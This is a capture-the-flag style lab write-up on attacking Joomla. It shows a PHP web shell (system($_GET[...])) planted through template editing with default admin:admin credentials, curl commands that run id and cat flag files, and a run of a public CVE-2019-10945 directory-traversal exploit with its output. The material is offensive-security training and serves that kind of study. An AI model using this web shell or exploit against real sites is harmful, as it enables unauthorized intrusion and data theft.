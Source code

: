 # Attacking Joomla

## Abusing Built-In Functionality

Using the credentials that we obtained in the examples from the last section, admin:admin, let's log in to the target backend at :
http://dev.inlanefreight.local/administrator

Configuration > Templates > click on a template name

Bring us to Template customize page :
http://dev.inlanefreight.local/administrator/index.php?option=com_templates&view=template&id=506

> Click on a PHP page

system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

## Leveraging Known Vulnerabilities

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945

--> list the contents of the webroot and other directories

Exploitation script : https://github.com/dpgg101/CVE-2019-10945

python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 

## LAB

IP=10.129.54.128
printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local dev.inlanefreight.local blog.inlanefreight.local" | sudo tee -a /etc/hosts

git clone https://github.com/dpgg101/CVE-2019-10945
cd CVE-2019-10945/
python3 CVE-2019-10945.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /

 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
flag_6470e394cbf6dab6a91682cc8585059b.txt
htaccess.txt
index.php
robots.txt
web.config.txt


http://dev.inlanefreight.local/administrator

http://dev.inlanefreight.local/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D

system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=cat%20flag_6470e394cbf6dab6a91682cc8585059b.txt

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=pwd

/var/www/dev.inlanefreight.local/templates/protostar

cat /var/www/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=cat%20%2Fvar%2Fwww%2Fdev.inlanefreight.local%2Fflag_6470e394cbf6dab6a91682cc8585059b.txt
j00mla_c0re_d1rtrav3rsal!
